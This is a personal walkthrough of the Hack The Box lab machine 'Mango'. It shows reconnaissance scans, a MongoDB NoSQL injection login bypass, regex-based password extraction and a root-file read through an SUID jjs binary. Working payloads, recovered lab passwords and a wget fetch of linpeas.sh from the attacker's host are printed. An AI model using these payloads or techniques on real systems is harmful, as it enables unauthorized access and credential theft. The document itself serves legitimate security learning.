





# Mango


# Information Gathering

## Nmap

Start off with my typical opening salvo of nmap scans:

```console
root@discovery:~/htb/mango# nmap -sV -sC 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-17 11:12 EST
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.045s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.53 seconds
```

and the all port scan:

```console
root@discovery:~/htb/mango# nmap -p- -T4 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-17 11:14 EST
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.045s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 19.73 seconds
```

With this I can be relatively confident that its *just* a web app (to begin with).

## Dirb & Nikto

As with all web apps, I am also going to do a cursory `dirb` and `nikto` scan -- even if they don't necessarily net me much, I can quickly fire them off and work on other things and come back to them if I don't get hits anywhere else.

```console
root@discovery:~/htb/mango# dirb https://10.10.10.162/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Feb 17 11:41:03 2020
URL_BASE: https://10.10.10.162/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://10.10.10.162/ ----
+ https://10.10.10.162/index.php (CODE:200|SIZE:5152)                                                                  
+ https://10.10.10.162/server-status (CODE:403|SIZE:278)                                                               
                                                                                                                       
-----------------
END_TIME: Mon Feb 17 11:44:51 2020
DOWNLOADED: 4612 - FOUND: 2
```
Interesting -- 403 on /server-status. Keep this in mind.

```console
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.162
+ Target Hostname:    10.10.10.162
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /C=IN/ST=None/L=None/O=Mango Prv Ltd./OU=None/CN=staging-order.mango.htb/emailAddress=admin@mango.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /C=IN/ST=None/L=None/O=Mango Prv Ltd./OU=None/CN=staging-order.mango.htb/emailAddress=admin@mango.htb
+ Start Time:         2020-02-17 11:10:24 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Hostname '10.10.10.162' does not match certificate's names: staging-order.mango.htb
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7863 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2020-02-17 11:35:55 (GMT-5) (1531 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# Exploitation  

With **22**, **80**, and **443** open I am going to first head to `http://10.10.10.162`. But I get a forbidden message:

  

I guess my real first move is to add `10.10.10.162` to `/etc/hosts` as `mango.htb`. But that didn't do much to help with the forbidden. However, going to `https://10.10.10.162` I am greeted with a dangerous certification message from firefox. Continuing on I am greeted with a google-esque search page where I am signed in as `MrR3boot`. 

  

None of the links around really work with one execption: Analytics:

  

Which doesn't look too helpful as of yet. There are some connect and open options which may be useful for some sort of RCE or something. But I need to enumerate further before I go down any kind of path.

Another thing to look at was in the nmap scan, and the certificate there was a subdomain `staging-order.mango.htb`. I am going to add this to my `/etc/hosts` file and check that out too.

  

I tested a few different low effort attempts at injection. I kept getting redirected back to the same page with no error message of any kind. I launched Burp and got to work looking at the request and responses closer:

  

From this I can see there is a sessionID I need to be cognizant of, as well as I *think* the password and username being sent in plain text. I still need to figure out what kind of database is behind this page before I can really attack it efficiently. Googling the box name `Mango` along with `sql injection` led me to blind sql injection on **MongoDB**. Coincidence? I think not.

After a decent amount of playing around with it, and honestly trial and error using injection techniques listed on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) I noticed that I was able to get an authentication bypass PoC.

My regular login request looks like this:

```console
POST / HTTP/1.1
Host: staging-order.mango.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://staging-order.mango.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Cookie: PHPSESSID=263edfq06ob1474prik0luf485
Upgrade-Insecure-Requests: 1
DNT: 1

username=aaaaaa&password=bbbbb&login=login
```
and gets the following as a response when sent:

```console
HTTP/1.1 200 OK
Date: Mon, 17 Feb 2020 19:09:30 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 4022
Connection: close
Content-Type: text/html; charset=UTF-8
```

Now if I modify the first request with the PayloadsAllTheThings line `username[$ne]=aaaaa&password[$ne]=bbbbb` I now get the following response:

```console
HTTP/1.1 302 Found
Date: Mon, 17 Feb 2020 19:14:59 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: home.php
Content-Length: 4022
Connection: close
Content-Type: text/html; charset=UTF-8
```

This is interesting because **HTTP 302** is a redirect code, and it looks like its sending me to `http://staging-order.mango.htb/home.php`. So if I did bypass authentication I should be able to naviagate there now in the browser, right?

  

So it looks like there is user there -- `admin`. I am going to look for some more users, the first ones that come to mind are:
* administrator
* guest
* mongo
* mango
* root
* default

If the theory holds true, then any time I get an **HTTP 302**, I can be confident that the answer is correct. The only one from my educated guesses list that got a **302** was `mango`. I bet that has an easier password than `admin`. After messing around with burp and the intruder tool, and thanks to the PayloadsAllTheThings page I was able to craft an attack that, rather ungracefully, got me a password. 

Passing `username=mango&password[$regex]=^§` into sniper and using a character list of a-z, A-Z, 0-9 I was able to successfully start getting some characters to what I believe to be a password.

  

Remember, getting 302 is indicative of a success, so after each successful find of a character I would add it to my POST. It was working great until I got to an impasse -- I guess there were special characters in the password. I need to add more to my list -- burp auto-url encodes them, so I added all the standard special characters and re-started my journey of pseudo-manually brute forcing. 

I did end up with what looks like a password though!

`h3mXK8RhU~f{]f5H`

## User Flag


Time to try and ssh (this is always my first shot when I get credentials):

```console
root@discovery:~/htb/mango# ssh mango@10.10.10.162
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Feb 17 21:09:22 UTC 2020

  System load:  0.01               Processes:            102
  Usage of /:   25.8% of 19.56GB   Users logged in:      0
  Memory usage: 15%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Feb 17 20:49:13 2020 from 10.10.14.75
mango@mango:~$ id;pwd;ls
uid=1000(mango) gid=1000(mango) groups=1000(mango)
/home/mango
```

Unfortunately no success on user flag yet:

```console
mango@mango:/home$ ls
admin  mango
mango@mango:/home$ cd admin/
mango@mango:/home/admin$ ls
user.txt
mango@mango:/home/admin$ cat user.txt 
cat: user.txt: Permission denied
```

I am going to have to privesc up to admin. Thinking it through and testing a few easy ways, I dawned on me that I should, as tiring as it sounds to me, keep it simple stupid. I used NoSQL to get to where I am, this was done through MongoDB. Can I go look at the data in the database itself? Sure enough I can and thanks to the [MongoDB docs](https://docs.mongodb.com/manual/reference/method/cursor.pretty/index.html) I was able to view it in a nice and pretty manner:

```sql
> show databases
admin   0.000GB
config  0.000GB
local   0.000GB
mango   0.000GB
> user admin
2020-02-17T21:13:07.470+0000 E QUERY    [js] SyntaxError: missing ; before statement @(shell):1:5
> use admin
switched to db admin
> show tables
system.version
> use config
switched to db config
> show tables
system.sessions
> use local
switched to db local
> show tables
startup_log
> use mango
switched to db mango
> show tables
users
> db.users.find().pretty()
{
        "_id" : ObjectId("5d8e25334f3bf1432628927b"),
        "username" : "admin",
        "password" : "t9KcS3>!0B#2"
}
{
        "_id" : ObjectId("5d8e25364f3bf1432628927c"),
        "username" : "mango",
        "password" : "h3mXK8RhU~f{]f5H"
}
```

So I guess I could have done the same thing I did for `admin` in burp that I did for `mango`. Not sure why I stopped other than the *"oo shiny"* aspect of getting something and following it down the rabbit hole. 

I spent too long on this part. Where my immediate first step should have just been `su admin` and then become admin, I instead wasted 30 minutes trying to ssh in and troubleshoot that. 

```console
root@discovery:~/htb/mango# ssh admin@10.10.10.162
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
admin@10.10.10.162: Permission denied (publickey,password).
```

```console
mango@mango:~$ su admin
Password: 
$ pwd
/home/mango
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
$ whoami
admin
$ cd ..
$ ls
admin  mango
$ cd admin
$ ls
user.txt
$ cat user.txt
79bf31c6c6eb38a8567832f7f8b47e92
```

## Root Flag

I typically use [LinEnum](https://github.com/rebootuser/LinEnum) as my go-to privesc tool, but I wanted to branch out and try some other tools. This time I am going to use [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and see what it gets me. 

First I need to get it on my local machine to pass it to the target box. Once I do that, I need to use the python3 version of `SimpleHTTPServer.py` called `http.server`. They function to my knowledge in basically the exact same way.

```console
root@discovery:~/htb/mango# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.162 - - [17/Feb/2020 16:52:26] "GET /linpeas.sh HTTP/1.1" 200 -
```
I've got that I need to get it on the remote machine:

```console
$ wget http://10.10.14.75:8000/linpeas.sh
--2020-02-17 21:53:17--  http://10.10.14.75:8000/linpeas.sh
Connecting to 10.10.14.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139464 (136K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                    100%[=================================================>] 136.20K   339KB/s    in 0.4s    

2020-02-17 21:53:18 (339 KB/s) - ‘linpeas.sh’ saved [139464/139464]

$ 
```
As with LinEnum, I will likely cut out a lot of the non-relevent information as I am pretty sure there will be a *ton* of output. One thing that I do like about it, is that it outputs privesc paths based on certainty -- which is both nice in that it saves time but may lead to an overreliance on it, rather than being good.

From the `readme`:
* `The Red/Yellow color is used for identifing configurations that lead to PE (99% sure).`

So with that in mind, there are only a few `Red/Yellow` highlighted results (I cut a lot of noise):

```console
====================================( Users Information )=====================================
                                                                                                                                                                                                             
[+] Checking Pkexec policy
                                                                                                                        
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

====================================( Interesting Files )=====================================
[+] SUID                                                                                                                
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                    

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                    

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

```

The first one is the user AdminIdentities=unix-group:sudo;unix-group:**admin** with the bolded part being highlighted. Secondly both instances of the **jjs** binary `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` were highlighted. Also in the same output, there is a link to [HackTricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands) which talks about sudo and suid -- which is pretty cool. 

To go off on a tangent about something I learned -- I never actually thought about how a user can change their own password whilst not having permissions to `/etc/shadow`. Well suid is [exactly how it happens](http://www.theunixschool.com/2010/06/what-is-suid.html), its a file permission that allows a user to execute a scropt as if the owner of ths script was the one executing it.

Using that same concept, and looking at the permissions on the `jjs` bin:

```console
$ ls -la /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

I should be able to execute stuff in `jjs` as `root`. [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) already has some stuff pre-made to play with. So given that I can probably read\write data with it -- I am going to try to just read out the `root.txt` flag by modifying the commands on GTFOBins:

```console
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
> var FileReader = Java.type("java.io.FileReader");
> var br = new BufferedReader(new FileReader("/root/root.txt"));
> 
> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> 
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> $ 
```

Voila, root flag. I suppose you can then theoretically read/write out data of other user's credentials or add another user so you would be able to maintain persistence, but for HTB's purposes this is good enough to finish off the machine for me.


# Conclusion

This box seemed on the easier end of medium boxes, or I am improving that it feels that way. Likely the former. It was a fun box and I learned quite a bit, this was the last easy\medium linux box that was available on live as of today that I haven't completed. I am dreading going back to the myriad Windows machines.
Also if anyone reading this is just beginning, and is following my steps in an attempt to learn something, keep in mind that this is condensed over the course of hours and hours. I try to include failures and wrong forks in the road that I take in an effort to demonstrate that, I do not think by any definition I am good or efficient at this. 
